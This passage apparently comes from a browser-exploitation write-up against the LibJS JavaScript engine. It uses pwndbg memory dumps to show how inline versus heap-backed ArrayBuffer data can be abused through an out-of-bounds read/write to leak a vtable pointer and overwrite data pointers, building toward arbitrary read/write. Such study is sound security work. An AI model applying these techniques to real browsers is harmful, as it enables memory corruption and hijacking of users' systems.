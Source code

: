 And that’s great news for two reasons:
1. The vtable resides inside the binary, so we can leak the binary base address if we read pointer to it.
2. We can overwrite the vtable pointer with our own to hijack control flow.

Alright, let’s keep going. Where’s the actual buffer data stored?
```
pwndbg> x /gx 0x000076140c479400+0x48
0x76140c479448: 0x7777777777777777
pwndbg> x /gx 0x000076140c479400+0xa0+0x48
0x76140c4794e8: 0x00005c5df5ebf0e0
```
Strange... but explainable.

It looks like for `biba` (the first `ArrayBuffer`), `LibJS` decided to store the buffer’s data inline (at `+0x48`), inside the object itself. But for `boba` (the second one), it allocated an external buffer - probably on the heap - and stored the buffer’s address at the same offset (at `+0x48`) where `biba` stores its inline data. Probably it happend because `biba` is small enough.

So, at address `0x00005c5df5ebf0e0`, we’re likely seeing the contents of `boba`'s buffer. Let’s verify that:
```
pwndbg> x /10gx 0x00005c5df5ebf0e0
0x5c5df5ebf0e0: 0x6666666666666666      0x6666666666666666
0x5c5df5ebf0f0: 0x6666666666666666      0x6666666666666666
0x5c5df5ebf100: 0x6666666666666666      0x6666666666666666
0x5c5df5ebf110: 0x6666666666666666      0x6666666666666666
0x5c5df5ebf120: 0x6666666666666666      0x6666666666666666
```
Yep - we were right.

So what does all this mean?

1. We can control whether the `ArrayBuffer`'s data lives inline or in a separate heap buffer.
2. If it's inline (small like `biba`), we can use `OOB` read/write to leak or overwrite both the vtable pointer and the data pointer of the next `ArrayBuffer`.

Sounds like we’ve got enough to at least build stronger primitives.

Let’s do it!

### Arbitrary Read & Write

![](./assets/finally.png)
